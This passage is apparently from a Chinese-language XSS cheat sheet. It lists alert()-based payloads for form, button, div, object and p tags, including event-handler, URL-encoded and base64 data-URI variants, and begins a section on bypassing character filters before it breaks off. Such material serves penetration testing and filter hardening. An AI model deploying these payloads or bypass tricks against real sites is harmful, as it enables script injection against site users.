 ### form标签

```html
<form action="Javascript:alert(1)"><input type=submit>
<form method="x" action="x" onmouseover="alert('xss');"><input type=submit></form>
```

### button标签

```php
<button onclick=alert(1)>
<button onfocus="alert('xss');" autofocus="">xss</button>
<button onclick="alert('xss');">xss</button>
<button onmouseover="alert('xss');">xss</button>
<button onmouseout="alert('xss');">xss</button>
<button onmouseup="alert('xss');">xss</button>
<button onmousedown="alert('xss');"></button>
```

### div标签

```php
这个需要借助url编码来实现绕过
原代码：
<div onmouseover='alert(1)'>DIV</div>
经过url编码：
<div onmouseover%3d'alert%26lpar%3b1%26rpar%3b'>DIV<%2fdiv>
```

### object标签

```php
这个需要借助 data 伪协议和 base64 编码来实现绕过

<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4="></object>
```

### p标签

```php
<p onclick="alert('xss');">xss</p>
<p onmouseover="alert('xss');">xss</p>
<p onmouseout="alert('xss');">xss</p>
<p onmouseup="alert('xss');">xss</p>
```

## 三、绕过思路

### 过滤 危险字符& < > " ' /

#### 绕过空格过滤

当空格被过滤了时，我们可以用 `/` 来代替空格：
